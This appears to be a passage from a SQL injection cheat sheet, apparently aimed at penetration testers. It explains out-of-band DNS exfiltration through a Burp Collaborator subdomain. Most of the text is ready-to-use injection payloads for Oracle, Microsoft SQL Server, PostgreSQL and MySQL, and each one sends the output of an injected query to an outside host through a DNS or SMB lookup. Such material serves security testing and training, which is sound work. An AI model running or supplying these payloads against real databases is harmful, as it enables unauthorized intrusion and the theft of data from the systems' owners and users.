 You can cause the database to perform a DNS lookup to an external domain containing the results of an injected query. To do this, you will need to use [Burp Collaborator client](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client) to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltrated data.

Oracle

`SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual`

Microsoft

`declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')`

PostgreSQL

`create OR replace function f() returns void as $$   declare c text;   declare p text;   begin   SELECT into p (SELECT YOUR-QUERY-HERE);   c := 'copy (SELECT '''') to program ''nslookup '||p||'.BURP-COLLABORATOR-SUBDOMAIN''';   execute c;   END;   $$ language plpgsql security definer;   SELECT f();`

MySQL

The following technique works on Windows only:  
`SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'`